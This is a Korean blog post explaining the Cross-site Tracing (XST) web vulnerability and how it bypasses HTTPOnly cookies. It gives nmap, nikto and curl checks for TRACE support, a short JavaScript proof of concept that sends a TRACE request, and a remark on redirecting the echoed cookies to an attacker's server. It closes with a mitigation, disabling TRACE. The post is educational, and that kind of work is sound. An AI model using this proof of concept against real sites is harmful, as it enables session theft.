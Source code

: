 ```yaml
---
layout: single
title: (Web-Vuln) Cross-site Tracing (XST)
categories: Web-vuln
tag: XST, XSS, web, web vulnerability, Cross-site Tracing]
toc: true
author_profile: false
---
```

# 해당 취약점은 무엇인가?
> XSS 공격의 종류중 하나로서, XSS 공격을 방어하거 위해 만들어진 쿠키 속성 중 하나인 HTTPOnly 속성을 우회할 수 있는 기법이다.

## HTTPOnly??
- HTTPOnly는 XSS 공격을 방지하기 위해 쿠키 값이 JavaScript를 통해 접근 할 수 없도록 한다.

# 어떻게 발생하는가?
- 요청 메서드중 하나인 TRACE 메서드가 허용되어 있을 경우 발생할 수 있다.

## TRACE를 통한 XST
 - TRACE 메서드의 경우 클라이언트가 서버에게 요청을 재전송하라는 의미로 사용되며, 주로 디버깅 용도로 사용되었다. 이는 클라이언트가 보낸 요청 메시지를 서버측에서 그대로 클라이언트 측으로 되돌려주게 되는데 이 때 요청값에 쿠키 세션값들이 존재하여, 세션탈취의 취험이 존재한다.

## 공격 앤드포인트 탐색
 XST 취약점 또한 XSS 의 한 종류로서 Stored Based XSS와 유사한 성격을 띄고 있다. XSS 공격에 취약한 앤드포인트가 존재할 때 악성 스크립트가 담긴 서버로의 AJAX 요청을 포함하여 서버 데이터베이스 내에 저장 한다. 이 때 희생자가 해당 악성스크립트(게시글로 가정)을 확인 할 경우 서버로의 TRACE를 통한 AJAX요청을 보내고 다시금 서버로 부터 응답을 받을 때 공격자가 의도한 스크립트가 실행되게 된다.

### 공격 대상 TRACE 사용 유/무 체크
대상 시스템에 TRACE 메서드가 실행중인지 확인할 필요가 있다.
아래 3가지 방법을 통해 확인할 수 있다.

```
1. nmap <대상 ip> --script http-methods --script-args http-method.test-all='/<대상ip>'

2. nikto -h <대상 ip>

3. curl -c -X -OPTIONS <대상 IP>
```

## 공격 POC Code

```javascirpt
<script type="text/javascript">
<!--
    function sendTrace () {
	var xmlHttp = new ActiveXObject("Microsoft.XMLHTTP");
	xmlHttp.open("TRACE", "http://foo.bar",false);
	xmlHttp.send();
	xmlDoc=xmlHttp.responseText;
	alert(xmlDoc);
    }
//-->
</script>
<INPUT TYPE=BUTTON OnClick="sendTrace();" VALUE="Send Trace Request">
```

위 코드는 주로 사용되는 XMLHTTP를 이용한 AJAX요청을 보내는 POC 코드이다.
<br>
POC코드에서는 alert()함수를 통해 개념증명을 보이지만, 이 부분을 document.location와 같이 공격자 서버로의 세션 전송 구문을 넣게되면 응답받은 값의 쿠키값을 공격자의 서버로 전송하게 될 것이다.

<div style="background-color:#ffffcc; padding:10px; border: 2px solid #ff6600; border-radius: 10px; text-align: center; color: black;">
TRACE메서드는 알반적으로 대부분의 웹 서버에서 기본적으로 비활성화 되어있으며, 현재 사용되는 대부분의 웹 브라우조는 XHR(XMLHttpRequedst)에서 TRACE를 실행하지 못하도록 설정되어 있다. 이로 인해 AJAX를 이용한 XST공격은 사실상 대부분의 웹 브라우저에서는 불가능하만 일부 취약환경에서는 사용이 가능하다.
</div>
<br>

# 대응방안
1. TRACE 메서드를 사용하지 않아야 한다.

# Reference
- https://webhack.dynu.net/?idx=20161111.001&print=friendly